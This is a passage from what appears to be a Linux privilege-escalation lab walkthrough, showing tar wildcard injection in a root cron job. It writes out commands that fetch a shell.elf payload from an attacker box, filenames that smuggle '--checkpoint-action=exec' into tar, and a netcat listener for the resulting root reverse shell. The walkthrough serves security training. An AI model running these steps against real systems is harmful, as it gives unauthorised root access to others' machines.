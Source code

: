 Transfer the shell.elf file to /home/user/ on the Debian VM (you can use scp or host the file on a webserver on your Kali box and use wget). Make sure the file is executable.

**Kali**

```
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /home/user/
wget http://$KALI:81/shell.elf
chmod +x /home/user/shell.elf
```

Create these two files in /home/user

**Victim**

```
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```

<figure><img src="../../.gitbook/assets/image (4) (3) (2).png" alt=""><figcaption></figcaption></figure>

When the tar command in the cron job runs, the wildcard (\*) will expand to include these files. Since their filenames are valid tar command line options, tar will recognize them as such and treat them as command line options rather than filenames.

Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run (should not take longer than a minute). A root shell should connect back to your netcat listener.

**Kali**

```
nc -nvlp 4444
```

<figure><img src="../../.gitbook/assets/image (45) (2).png" alt=""><figcaption></figcaption></figure>

## SUID / SGID Executables - Known Exploits

Find all the SUID/SGID executables on the Debian VM.

**Victim**
